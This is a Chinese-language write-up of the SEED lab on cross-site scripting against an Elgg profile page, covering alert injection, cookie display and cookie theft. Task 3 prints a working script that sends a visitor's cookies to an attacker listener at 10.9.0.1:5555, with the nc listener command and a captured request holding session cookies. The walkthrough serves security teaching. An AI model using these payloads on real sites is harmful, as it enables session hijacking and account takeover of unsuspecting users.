 

# lab setup

参考seed系列其他博客

# Task 1: Posting a Malicious Message to Display an Alert Window

通过在个人主页汇总嵌入JavaScript 程序，这样当其他用户查看个人主页时，将执行 JavaScript 程序并显示一个警告窗口

- 在brief description框中填入`<script>alert('XSS');</script>`

如果想运行一个很长的 JavaScript，但是受到表单中可键入字符数量的限制，可以将 JavaScript 程序存储在一个独立js文件中，然后使用 < script > 标记中的 src 属性引用它

```javascript
<script type="text/javascript"
    src="http://www.example.com/myscripts.js">
</script>
```

# Task 2: Posting a Malicious Message to Display Cookies

当其他用户查看个人主页时，用户的 cookie 将显示在警告窗口中:`<script>alert(document.cookie);</script>`

# Task 3: Stealing Cookies from the Victim’s Machine

攻击者希望通过 JavaScript 代码将 cookie 发送给自己，可以如下构造js代码：

```java
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>'); </script>
```

当 JavaScript 插入 img 标记时，浏览器尝试从 src 字段中的 URL 加载图像; 这导致向攻击者的机器发送 HTTP GET 请求，上面的 JavaScript 将 cookie 发送到攻击者ip的端口5555(IP 地址为10.9.0.1) ，在那里攻击者有一个 TCP 服务器监听相同的端口

攻击者机器运行：

```shell
nc -lknv 5555
```

- -l Listen on a specified port and print any data received
- -v Produce more verbose output.
- -n 直接使用IP地址，而不通过域名服务器
- -k 当一个连接完成时，监听另一个连接

攻击者shell：

```shell
$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.15 58018
GET /?c=Elgg%3D8fueaeqm5p111ufasemhhpep6n%3B%20elggperm%3Dzv6b-6-jXGHCHP6e8DaQqjlkyRIW883S HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
```
